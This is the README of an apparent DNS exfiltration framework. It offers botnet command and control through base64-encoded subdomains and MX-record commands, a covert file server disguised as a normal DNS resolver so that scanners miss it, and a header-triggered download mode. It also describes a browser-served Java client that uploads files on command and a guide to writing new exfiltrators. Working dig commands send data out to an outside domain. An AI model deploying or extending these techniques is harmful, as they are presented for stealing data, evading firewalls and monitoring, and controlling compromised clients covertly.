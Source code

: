 # dns_exfiltration

A framework for writing DNS exfiltration modes and example exfiltrators.

##Server Setup:
Nothing!
nothing special is required except that port 53 be available.
However, if the server also happens to be the NS authority for a domain, you will be able to use DNS routing
to trafifc information for you as well


##Example exfiltrators

This code comes with three example exfiltrators, which are described below

_Bot mode:_
This is your basic botnet command and control.
As data is exfiltrated from clients, it is appended to a file. This file can be a log of events
or could a file upload. Data is sent in base64-encoded subdomains using A records to upload data
from client to server. The MX record reads from a special command file. The command file is intended for sending
commands from the DNS server to the clients under it's control.

This is especially useful in situations where TCP connections are blocked or monitored at application or network
level. Some sandboxed applications such as java browser applications are prohibited from connect()'ing to TCP
sockets, but the gethostbyname  and other system calls are often permitted. This leaves a way to transmit information
out without the pesky connect(). This might also be used to circumvent firewalls or routing constraints, instead
using the recursive DNS system to route data to it's desitination.

To exfiltrate data this way is easy, using dig or the supplied exfil_client command line utilies provided by
this package. (replace example.com with your authoritative domain name, of course)

```
dig $(echo exfiltrate me | base64).filename.example.com

dig MX example.com
```

To pair with bot mode, there is a java client provided in this repository. When this jar is served from a browser
it can circumvent the same-domain constraints of the browser, uploading files to the server upon command.
The java client has compile-time dependencies. You'll need to include org.xbill.DNS to make DNS requests and org.apache.commons.codec for Base64. You can just extract those and edit the Makefile accordingly.

```bash
make
make jar
java -jar DefConGui.jar
```



_chunk mode:_

This turns your DNS server into a file server that uses a high TTL to cache files in DNS caches.
It works by dividing your files into evenly-sized chunks, and using a similar technique as bot mode, responds
with the chunk as a base64 encoded subdomain. This method has the benefit of being cachable. This is not used
for command and control, so we want the server response to be as highly cached as possible to offload storage
onto other DNS servers. This also enables us to send and retrieve files much faster, as we do not need to wait
for server responses between each packet to ensure packet ordering. The position is a simple calculation beween
the chunk number and the size of each chunk.

This mode has the additional benefit that it can be on all the time and will appear to be anormal, fully functional
DNS server to anyone who uses it. All requests are proxied back to a real DNS server, and the fake responses are
appended to the end the real response only if exfiltration is possible. That means scanners will not detect anything
amiss about this server. It only misbehaves when you ask it to ;)

The supplied commandline in this package will let you upload, download, and list files on the chunk-mode server, but you can also do use the protocol with dig (although, quite slowly, and with great effort)

File listing:
```
dig TXT example.com
```

chunk download:
lets say you have a file that is 1,000 chunks if the chunk size is 30 bytes.
You'll have all the information you need if you do this. The server will respond with base64 encoded 
data along with real data from the base domain.

```
for chunk in {0..999}
do
  dig MX c"${chunk}".s30.filename.example.com
done
```

chunk upload:
```
dig <base64_data>.c0.s30.filename.example.com
```


_header executer_
this method does not use the domain name to encode data. Unlike the other two modes, in which the data exfiltrated
are files transferred between client and server. In this method, we have a normally functioning DNS server which
does additional work when a subtle, configurable change is made to the DNS header on the request.

This mode has a number of actions which are taken when the crafted DNS query arrives in additional to processing
and responding with a valid and correct response. The instruction in this exfiltrator is sent as the header ID,
which allows the exfiltrator to have large number of instructions that could be executed.

Included in theis exfiltrator are commands to 'download', 'email' or 'hello', which cause the exfiltrator to read
the query name, and download the url to a file, email the url to a configured user, or just print hello to the console.

Again, the supplied command line server and client are functional for using this mode.




## Writing your own exfiltrator

Extending this code is quite easy. If you are familiar with writing a website using a web framework like django or
flask, this will look similar.

create a folder in exfiltrators and create files called 'cli.py', 'server.py' and 'client.py'
The server and client should inherit from one of the base classes.

Writing the server:

By default, the base classes will respond with real results to all  queries, by passing the request back to a backend.
Override the functionality of a method by creating a class method with  the same name as a DNS query type. ('A', 'MX', 'TXT', 'NS', for example). All the DNS details are taken care of, the methods you write should take the name as a
string and should return the result as a string

Wrting the client:

When writing the client, there are fewer niceties. I expect you to need to use dnslib in the client in order
to make specific kinds of requests.

Gluing it together in the CLI.

Use the click() methods to ceate a subcommand.

Register the subcommands as client or server by eding dns_exfil.cli.client or dns_exfil.cli.server respectively.


Have fun!
